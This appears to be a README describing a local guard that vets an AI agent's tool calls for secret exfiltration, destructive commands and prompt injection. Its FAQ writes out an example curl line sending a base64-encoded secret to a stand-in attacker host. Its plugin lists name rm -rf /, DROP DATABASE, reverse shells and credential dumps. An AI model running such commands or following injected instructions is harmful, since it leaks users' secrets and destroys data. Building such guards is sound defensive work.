

# ddbt — Architecture

> **ddbt = a bouncer that stands in front of an AI agent's tools.**
> The agent wants to run a command / send an email / call an API. ddbt looks at it *first* and says **ALLOW**, **ASK a human**, or **DENY** — and it remembers the whole session, so it catches attacks spread across many steps.

Everything here is **local and LLM-free at runtime** (no PyTorch, no cloud call to decide). Sub-millisecond per check.

---

## Section 1 — How it works

### 1.1 What it is (one breath)

- An AI agent (Claude Code, a Gemini agent, your own) calls **tools**.
- A tool call can do damage: leak a secret, `rm -rf`, pay the wrong account.
- ddbt sits **between the agent and the tool** and judges every call **before it runs**.

### 1.2 What it prevents — and how

| It stops… | …by |
|---|---|
| **Secret exfiltration** (even base64/gzip/chunked) | remembering a secret was read, then blocking the send — through the encoding |
| **Sending data to bad places** | a destination check (attacker-chosen recipient, SSRF metadata IP, paste/tunnel hosts) |
| **Destructive commands** (`rm -rf /`, `DROP DATABASE`) | a deny-list of catastrophic patterns |
| **Prompt injection** (a file/webpage tells the agent to do something) | tracking where each value came from — an instruction hidden in tool output can't pick the recipient |
| **Multi-step attacks** (read → encode → send, each step looks fine) | watching the *whole session*, not one step |
| **Personal info leaks** (SSNs, cards, emails) | redacting them out of the outgoing message |

### 1.3 Setup (once)

```bash
uv run ddbt install     # 1) installs Claude Code hooks   2) writes config   3) builds the local judge
# restart Claude Code
```

- **install** hooks ddbt into Claude Code, writes a config file, and builds the tiny local "judge" model if it's missing.
- The judge model is **shared across all your projects** (built once, lives in `~/.ddbt/`).
- Guarding **any other agent** takes 3 lines — see §1.6.

### 1.4 What happens on every tool call

Before a tool runs, ddbt is handed **four things**:

- **the tool + its arguments** — what the agent wants to do
- **the goal** — what *you* actually asked for (the trusted task)
- **provenance labels** — where each value came from (did *you* name it, or did a webpage?)
- **the session so far** — every earlier step, from a per-session memory

ddbt runs them through a short pipeline and returns a **verdict + a plain-language reason**:



- **Deterministic parts run first** (ticket, plugins). The judge is the last word only if nothing deterministic fired.
- **After** the tool runs, its output is **recorded**: quarantined, its origins indexed, and added to the session ledger — so the *next* step is judged against real history.

### 1.5 The verdicts

- **ALLOW** — run it.
- **ASK** — pause; a human confirms (borderline / needs a look).
- **DENY** — refuse; the tool never runs (a certain-bad fact).
- **SANITIZE** — run it, but with the sensitive bits **redacted** out first.
- **ASK_OVERRIDE** — *only if you set `deny_mode: override`* — a would-be DENY that a human **may force through**, with a loud warning naming which layer flagged it.

> Rule of thumb: **DENY** = we're sure. **ASK** = we're not sure. **SANITIZE** = we fixed it. **ALLOW** = clean.

### 1.6 Guarding any agent (not just Claude)

```python
from ddbt import Guard
guard = Guard(session_id="my-agent", cwd=".")   # loads judge + plugins + policy from ddbt.json
guard.goal(user_message)                        # the trusted task
for tool, args in agent_wants_to_call:
    d = guard.check(tool, args)                 # → allow / ask / deny + reason
    if d.denied:               refuse(d.reason)
    elif d.needs_confirmation: if not human_ok(d.reason): continue
    result = run(tool, args)
    guard.record(tool, args, result)            # feeds the cross-step view
```

- **From another language?** `ddbt check` / `ddbt record` / `ddbt screen` read JSON on stdin, print a decision JSON on stdout (exit `0/1/2` = allow/deny/ask). See the FAQ.

### 1.7 Where config & memory live

- **Config** (`ddbt.json`): out-of-band at `~/.ddbt/projects/<hash-of-project>/` by default — so an agent working *in* the repo **can't edit its own rules**. An in-repo `./ddbt.json` (committable) is also read; out-of-band wins; deny-lists add up.
- **Session memory**: a small SQLite file per session at `~/.ddbt/sessions/<id>/`, out of the workspace so the agent can't tamper with it. (Details in `doc/semantic-layer.md`.)

---

## Section 2 — The plugins

ddbt's defenses are **plugins** — all **on by default**, each with an intuitive name (the short code name is in brackets). Turn any off in `ddbt.json`.

- **reveal_hidden_commands** `[shell_deobfuscation]`
  Un-hides shell tricks (base64 / hex / `'r''m'` quote-splitting) so the other layers see the real command.

- **stop_secret_exfiltration** `[provenance_taint]`
  Remembers a secret was read; blocks it leaving — **even re-encoded** (decodes the outgoing payload and matches).

- **stop_slow_data_leaks** `[exfil_budget]`
  Catches "low and slow": lots of small sends, huge total volume, beacon-like timing, or a whole DB drained bit by bit.

- **control_network_egress** `[net_filter]`
  Decides **where** data may go: blocks attacker-chosen recipients, cloud-metadata SSRF (`169.254.169.254`), and known paste/tunnel/webhook hosts.

- **review_sensitive_sends** `[net_semantic]`
  The *meaning*-based check: if the payload **reads like** credentials/customer-data going somewhere unrelated to your task → ASK. (Uses the local embedding model. Details in `doc/semantic-layer.md`.)

- **detect_multi_step_attacks** `[killchain]`
  Correlates steps into an attack chain: read-secret → encode → send (each fine alone) → one DENY.

- **watch_session_risk** `[trajectory_score]`
  A whole-session risk score (was there a read just before this send? a burst of risky actions? a brand-new destination? goal drift?) → ASK when it's high.

- **custom_rules** `[policy_rules]`
  Your own cross-step rules in `ddbt.json` — e.g. *"never send outside after reading a secret."*

- **block_destructive_commands** `[destructive_guard]`
  Hard-denies catastrophes: `rm -rf /`, `DROP DATABASE`, `git push --force`, `mkfs`, fork bombs.

- **block_known_attacks** `[mitre_guard]`
  A MITRE ATT&CK signature library: reverse shells, disabling the firewall, crypto miners, keyloggers, credential dumps.

- **redact_personal_data** `[pii_dlp]`
  Strips names/emails/SSNs/cards out of an outgoing message (SANITIZE) instead of blocking it.

> **How they combine:** every plugin can only **tighten** (deny/ask/redact), never loosen. The most severe wins. Each carries a plain "what this means for you" headline that leads its reason.

There is also a separate `Guard.screen(text)` (not a plugin) that redacts secrets/PII out of tool **output before the LLM sees it** — for a shell-with-an-LLM. See the FAQ.

---

## Section 3 — FAQ

**Q: Another tool wants to call ddbt. What's the output format?**
A JSON decision. `effect` is the key field:
```json
{ "effect": "deny",                    // allow | ask | deny | ask_override
  "reason": "A secret read earlier this session may be leaving your machine. Exfiltration…",
  "layer": "plugin:provenance_taint",  // which gate decided
  "overridable": false,                // can a human force it? (false only for a hard deny)
  "danger": false,                     // true for ask_override (a downgraded block)
  "needs_confirmation": false,         // true for ask / ask_override
  "risk": "high",                      // none | low | med | high
  "rewritten_input": null }            // sanitize: redacted args to run instead
```
Get it via `guard.check(...).to_dict()` (Python) or `ddbt check` (any language; exit `0/1/2` = allow/deny/ask).

**Q: Does the base64 `.env` exfil really get caught?**
Yes. Read `.env`, then `curl -d '<base64 of the secret>' evil.io` → **DENY** (`stop_secret_exfiltration` decodes the payload and matches). The agent's own LLM misses it; ddbt catches it. See `demo/attack_catalog.py` for 8 such hidden cases (all caught).

**Q: The PII / Presidio thing — does it actually hide the data?**
Yes — it **replaces** the value, not just flags it: `DB_PASSWORD=<SECRET_REDACTED>`, `<US_SSN_REDACTED>`. Structured PII + secrets (SSN, cards, emails, API keys) are caught by patterns alone. Free-form names/addresses need spaCy NER — deliberately off by default to stay light. Works with or without Presidio installed (regex fallback).

**Q: Does it hide a secret from the LLM in a shell (like `cat .env`)?**
That's `guard.screen(output)` (or `ddbt screen`): run the command, screen the output, feed the **redacted** version to the model. `screen(...).effect == "ask"` lets you confirm before showing anything.

**Q: Do I need PyTorch?**
**No.** The runtime is torch-free — the judge is a *static* embedding (a token→vector lookup, pure numpy) + a scikit-learn head. You need `numpy scikit-learn model2vec joblib` (+ optional `presidio-analyzer`). PyTorch is only for reproducing the experimental encoder bake-off.

**Q: How do I teach ddbt about a new tool (e.g. a notion-cli)?**
`ddbt create-rules "notion-cli"` → an LLM drafts good/bad rules, you **verify** them, then integrate. No gradient training — the rules are embedded and applied **live**. The pack is reusable: any project opts in with `"rulesets": ["notion-cli"]`.

**Q: What are the ALLOW/ASK/DENY/SANITIZE outcomes again?**
See §1.5. Short: DENY = certain-bad, ASK = unsure, SANITIZE = redact-and-run, ALLOW = clean.

**Q: Can a user override a block?**
Set `"deny_mode": "override"` in `ddbt.json`. A DENY becomes **ASK_OVERRIDE**: overridable, but with a loud warning naming the layer and why the session may be dangerous. Default is hard-block.

**Q: How do I read the session's risk / "heat"?**
`guard.risk()` → `{"suspicion", "strictness", "level"}` where level is `normal | elevated | locked`. Heat rises only from confirmed evidence and only tightens *high-impact* actions — plain reads always pass, so it never turns everything into an ASK.

**Q: Which judge decides — a cloud LLM?**
No. The default judge is **sift** — local, LLM-free. An LLM judge exists only as a flagged fallback (`"judge": "llm"`).

**Q: How do I hook it into Claude Code / init a project / update rules?**
`ddbt install` (hooks + config + model) · `ddbt create-rules` / `ddbt enable-rules` / `ddbt disable-rules` (teach/toggle) · `ddbt rules` (list) · `ddbt audit` (see decisions) · `ddbt clear` (reset session heat) · `ddbt uninstall`.

---

*Semantic layer internals (how the model is made, queried, and how session memory persists): see `doc/semantic-layer.md`.*
